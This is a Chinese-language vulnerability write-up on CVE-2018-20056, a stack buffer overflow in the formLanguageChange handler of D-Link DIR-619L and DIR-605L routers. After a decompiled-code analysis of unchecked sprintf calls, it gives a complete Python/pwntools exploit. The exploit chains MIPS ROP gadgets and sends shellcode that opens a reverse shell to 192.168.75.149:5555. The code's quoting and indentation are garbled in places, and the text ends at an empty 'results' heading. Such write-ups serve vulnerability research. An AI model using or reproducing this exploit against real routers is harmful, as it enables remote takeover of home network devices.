

# （CVE-2018-20056）D-Link DIR-619L&605L 栈溢出漏洞

## 一、漏洞简介

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备，在/bin/boa文件的formLanguage函数中存在缓冲区溢出漏洞，在调用sprintf函数时没有对参数的长度进行检查，导致远程攻击者可以通过访问

```
http://[ip]/goform/formLanguageChange并指定currTime参数实现远程代码执行。 
```

固件下载地址：ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/

## 二、漏洞影响

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备。

## 三、复现过程

### 漏洞分析

在formLanguageChange函数中，通过websGetVar获取config.i18n_language，nextPage，currTime等参数。websGetVar通过malloc、memcpy将获取到的参数返回给formLanguageChange。formLanguageChange接下来调用了sprintf危险函数向local_f8变量中读入参数内容，并在下一步websRedirect使用了local_f8作为参数。

```
void formLanguageChange(undefined4 uParm1)
{
  int iVar1;
  char *pcVar2;
  undefined4 uVar3;
  FILE *__stream;
  char *__s1;
  char local_f8 [200];
  char acStack48 [24];
  undefined4 local_18;
  int local_14; `__s1 = (char *)websGetVar(uParm1,“config.i18n_language”,&DAT_004ac874);

……

apmib_set(0x129,&local_18);

__s1 = (char *)websGetVar(uParm1,“nextPage”,&DAT_004ac874);

if (*__s1 == 0) {

uVar3 = websGetVar(uParm1,“currTime”,&DAT_004ac874);//获取currTime参数

__s1 = “/index.asp”;

}

else {

……

}

sprintf(local_f8,"%s?t=%s",__s1,uVar3);//危险函数sprintf直接读入字符

LAB_00460b34:

websRedirect(uParm1,local_f8);

……

return;

}` 
```

websRedirect主要调用`send_r_moved_perm`，这个函数调用了两次危险函数sprintf，分别向acStack224(sp+0x19f8-0xe0)和acStack480(sp+0x19f8-0x1e0)中输入字符。

```
undefined4 websRedirect(int iParm1,char *pcParm2)
{
  char *pcVar1;

*(undefined4 *)(iParm1 + 0x50) = 0;

pcVar1 = strstr(pcParm2,"/apply_setting.asp");

if (pcVar1 != (char *)0x0) {

apply_setting_redirect = apply_setting_redirect + 1;

}

send_r_moved_perm(iParm1,pcParm2);

return 0;

}

void send_r_moved_perm(int iParm1,char *pcParm2)

{

undefined4 uVar1;

char *pcVar2;

undefined auStack6624 [6144];

char acStack480 [256];

char acStack224 [200];

……

if (pcVar2 == (char *)0x0) {

if (*pcParm2 == ‘/’) {

pcParm2 = pcParm2 + 1;

}

sprintf(acStack224,“http://%s/%s”,*(undefined4 *)(iParm1 + 0x70),pcParm2);

pcParm2 = acStack224;

}

sprintf(acStack480,

```
 "&lt;html&gt;&lt;head&gt;&lt;/head&gt;&lt;body&gt;\r\n\t\tThis document has moved to a new &lt;ahref=\"%s\"&gt;location&lt;/a&gt;.\r\n\t\tPlease update your documents to reflect the newlocation.\r\n\t\t&lt;/body&gt;&lt;/html&gt;\r\n"
      ,pcParm2); 
``` `……s

return;

}` 
```

通过第二两个sprintf修改返回地址，构造ROP链，导致程序控制流被劫持。（也可以通过两个sprintf的配合来实现栈的迁移，漏洞作者是这么实现的）

### 漏洞复现

#### poc

```
import requests
import sys
import struct
from pwn import *
#context.log_level='debug'
context.arch='mips'
context.endian='big'
ip='192.168.75.150'

def syscmd1(a):

p=remote(ip,80)

z=len(a)

print “[+]len:”+str(z)

payload=’’

payload+=‘POST /goform/formLanguageChange HTTP/1.1\r\n’

payload+=‘Host: ‘+ip+’\r\n’

payload+=‘Connection: keep-alive\r\n’

payload+=‘Accept-Encoding: gzip, deflate\r\n’

payload+=‘Accept: */*\r\n’

payload+=‘User-Agent: python-requests/2.18.4\r\n’

payload+=‘Content-Length: ‘+str(z+9)+’\r\n’

payload+=‘Content-Type: application/x-www-form-urlencoded\r\n’

payload+=’\r\n’

payload+=‘currTime=’

payload+=a+’\r\n’

p.send(payload)

p.recvuntil(’</html>’)

#raw_input()

p.close()

#base address of libc.so.0

base1=0x2ab88000

###shellcode

sc=struct.pack(">I",0x24060101)

sc+=struct.pack(">I",0x04d0ffff)

sc+=struct.pack(">I",0x2806ffff)

sc+=struct.pack(">I",0x27bdffe0)

sc+=struct.pack(">I",0x27e41001)

sc+=struct.pack(">I",0x2484f023)

sc+=struct.pack(">I",0xafa4ffe8)

sc+=struct.pack(">I",0xafa0ffec)

sc+=struct.pack(">I",0x27a5ffe8)

sc+=struct.pack(">I",0x24020fab)

sc+=struct.pack(">I",0xafa00108)

sc+=struct.pack(">I",0x0101010c)

sc+="/bin//sh\x00"

shellcode =’’

shellcode += asm(shellcraft.connect(‘192.168.75.149’,5555))

shellcode += asm(shellcraft.dup2(5,0))

shellcode += asm(shellcraft.dup2(5,1))

shellcode += sc `s0=struct.pack(">I",base1+0x2C794)

s1=struct.pack(">I",base1+0x2C794)### rop2:move $t9,$s2;…;jr $t9

s2=struct.pack(">I",base1+0x24b70)### rop3:sleep(1)

s3=struct.pack(">I",base1+0x2bdac)### rop5:addiu $a0,$sp,0x18;…;lw $ra,0x30;jr $ra

s4=struct.pack(">I",base1+0x2bdac)

###rop

payload1=‘a’*0x167+s0+s1+s2+s3

payload1+=struct.pack(">I",base1+0x25714)  ###rop1: li $a0,1;move $t9,$s1;jalr $t9;ori $a1,$s0,2

payload1+=‘b’*0x1c+s0+s1+s2+s3+s4

payload1+=struct.pack(">I",base1+0x5f98)  ###rop4:lw $ra,0x1c($sp);…;jr $ra

payload1+=‘c’*0x1c

payload1+=s3

payload1+=‘d’*0x18

payload1+=struct.pack(">I",0x24910101) ###rop7 addiu $s1,$a0,257;addi $s1,$s1,-257;move $t9,$s1;jalr $t9

payload1+=struct.pack(">I",0x2231feff)

payload1+=struct.pack(">I",0x0220c821)

payload1+=struct.pack(">I",0x0320f809)

payload1+=struct.pack(">I",0x2231feff)

payload1+=struct.pack(">I",0x2231feff)

payload1+=struct.pack(">I",base1+0x2bda0) ###rop6:mov $t9,$a0;…;jalr $t9

payload1+=‘e’*0x20+shellcode

if **name** == “**main**”:

syscmd1(payload1)` 
```

利用效果:


